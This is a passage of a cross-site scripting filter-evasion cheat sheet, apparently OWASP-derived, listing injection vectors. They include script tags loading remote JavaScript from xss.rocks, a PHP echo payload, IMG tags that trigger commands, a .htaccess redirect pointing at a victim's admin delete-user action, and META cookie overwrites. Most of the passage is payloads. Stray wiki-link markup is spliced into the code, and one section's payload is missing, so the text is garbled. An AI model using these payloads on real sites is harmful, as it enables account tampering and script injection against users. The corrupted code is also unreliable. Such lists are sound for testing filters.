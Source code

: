 (This is how Grey Magic hacked Hotmail and Yahoo!)
#### Assuming you can only fit in a few characters and it filters against .js¶
This attack allows you to rename your [[_content/dictionary#J|JavaScript]] file to an image as an [[_content/dictionary#X|XSS]] vector:
<[[_content/dictionary#S|SCRIPT]] [[_content/dictionary#S|SRC]]="http://xss.rocks/xss.jpg"></SCRIPT>

#### [[_content/dictionary#S|SSI]] (Server Side Includes)¶
This requires SSI to be installed on the server to use this [[_content/dictionary#X|XSS]] vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:


#### [[_content/dictionary#P|PHP]]¶
This attack requires PHP to be installed on the server. Again, if you can run any scripts remotely like this, there are probably much more dire issues:
<? echo('<[[_content/dictionary#S|SCR]])';
echo('[[_content/dictionary#I|IPT]]>alert("[[_content/dictionary#X|XSS]]")</[[_content/dictionary#S|SCRIPT]]>'); ?>

#### [[_content/dictionary#I|IMG]] Embedded Commands¶
This attack only works when this is injected (like a web-board) in a web page behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc. This is one of the lesser used but more useful [[_content/dictionary#X|XSS]] vectors:
<IMG [[_content/dictionary#S|SRC]]="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

##### [[_content/dictionary#I|IMG]] Embedded Commands part [[_content/dictionary#I|II]]¶
This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal <IMG [[_content/dictionary#S|SRC]]="httx://badguy.com/a.jpg"> could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector:
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser

(Thanks to Timo for part of this)
#### Cookie Manipulation¶
This method is pretty obscure but there are a few examples where <[[_content/dictionary#M|META]] is allowed and it can be used to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as [[_content/dictionary#J|JavaScript]] (you can also use this to log people out or change their user states, get them to log in as you, etc):
<META [[_content/dictionary#H|HTTP]]-[[_content/dictionary#E|EQUIV]]="Set-Cookie" Content="[[_content/dictionary#U|USERID]]=<[[_content/dictionary#S|SCRIPT]]>alert('[[_content/dictionary#X|XSS]]')</SCRIPT>">

#### [[_content/dictionary#X|XSS]] Using [[_content/dictionary#H|HTML]] Quote Encapsulation¶
This attack was originally tested in IE so your mileage may vary. For performing XSS on sites that allow <[[_content/dictionary#S|SCRIPT]]> but don't allow <SCRIPT [[_content/dictionary#S|SRC]]... by way of a regex filter /\<script\[^\>\]+src/i, do the following:
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
